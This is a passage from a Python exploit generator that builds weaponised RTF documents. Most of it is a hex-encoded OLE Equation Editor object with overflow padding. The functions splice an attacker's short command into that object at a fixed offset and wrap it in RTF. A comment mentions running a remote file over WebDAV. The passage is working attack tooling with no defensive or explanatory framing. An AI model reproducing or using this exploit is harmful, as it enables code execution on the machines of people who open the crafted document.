 ```python
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
ffffff01000002080000000000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000100feff030a0000ffffffff02
ce020000000000c000000000000046170000004d6963726f736f6674204571756174696f6e20332e
30000c0000004453204571756174696f6e000b0000004571756174696f6e2e3300f439b271000000
00000000000000000000000000000000000000000000000000000000000000000000000000030004
00000000000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000001c00000002009ec4a900000000000000c8a75c00c4
ee5b0000000000030101030a0a01085a5a4141414141414141414141414141414141414141414141
414141414141414141414141414141414141414141120c4300000000000000000000000000000000
00000000000000000000000000000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000000000000000000000004500710075
006100740069006f006e0020004e0061007400690076006500000000000000000000000000000000
0000000000000000000000000000000000000020000200ffffffffffffffffffffffff0000000000
0000000000000000000000000000000000000000000000000000000000000004000000c500000000
00000000000000000000000000000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000000000000000ffffffffffffffffff
ffffff00000000000000000000000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000000000ff
ffffffffffffffffffffff0000000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000000000000000000000000000000000
00000000000000ffffffffffffffffffffffff000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000000001050000050000000d0000004d
45544146494c4550494354003421000035feffff9201000008003421cb010000010009000003c500
000002001c00000000000500000009020000000005000000020101000000050000000102ffffff00
050000002e0118000000050000000b0200000000050000000c02a001201e1200000026060f001a00
ffffffff000010000000c0ffffffc6ffffffe01d0000660100000b00000026060f000c004d617468
54797065000020001c000000fb0280fe0000000000009001000000000402001054696d6573204e65
7720526f6d616e00feffffff6b2c0a0700000a0000000000040000002d0100000c000000320a6001
90160a000000313131313131313131310c000000320a6001100f0a00000031313131313131313131
0c000000320a600190070a000000313131313131313131310c000000320a600110000a0000003131
31313131313131310a00000026060f000a00ffffffff0100000000001c000000fb02100007000000
0000bc02000000000102022253797374656d000048008a0100000a000600000048008a01ffffffff
7cef1800040000002d01010004000000f0010000030000000000
"""

COMMAND_OFFSET = 0x949*2

def create_ole_exec_primitive(command):
    if len(command) > 43:
        print "[!] Primitive command must be shorter than 43 bytes"
        sys.exit(0)
    hex_command = command.encode("hex")
    objdata_hex_stream = OBJDATA_TEMPLATE.translate(None, "\r\n")
    ole_data = objdata_hex_stream[:COMMAND_OFFSET] + hex_command + objdata_hex_stream[COMMAND_OFFSET + len(hex_command):]
    return OBJECT_HEADER + ole_data + OBJECT_TRAILER

def create_rtf(header,command,trailer):
    ole1 = create_ole_exec_primitive(command + " &")
    
    # We need 2 or more commands for executing remote file from WebDAV
    # because WebClient service start may take some time
    return header + ole1 + trailer
```